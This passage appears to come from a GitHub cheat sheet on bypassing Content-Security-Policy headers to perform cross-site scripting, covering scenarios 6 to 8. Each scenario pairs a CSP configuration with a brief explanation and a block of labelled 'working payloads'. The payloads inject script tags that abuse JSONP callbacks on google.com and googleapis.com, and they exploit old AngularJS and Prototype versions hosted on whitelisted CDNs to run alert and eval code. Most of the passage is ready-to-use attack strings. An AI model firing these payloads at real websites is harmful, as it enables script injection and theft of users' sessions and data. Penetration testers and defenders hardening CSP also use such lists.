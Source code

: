 ```
**Scenario** : 6
```
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none' ; report-uri /Report-parsing-url;
```
In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using [jsonp](https://github.com/zigoo0/JSONBee). jsonp endpoints allow insecure callback methods which allow an attacker to perform xss.

**working payload** :
```
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

```
**Scenario** : 7

```
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none' ; report-uri /Report-parsing-url;

```
In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

**working payloads** :
```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>
"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

```
**Scenario** : 8

```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;

```

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

**working payloads** :
```
ng-app"ng-csp ng-click=$event.view.alert(1337)>
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
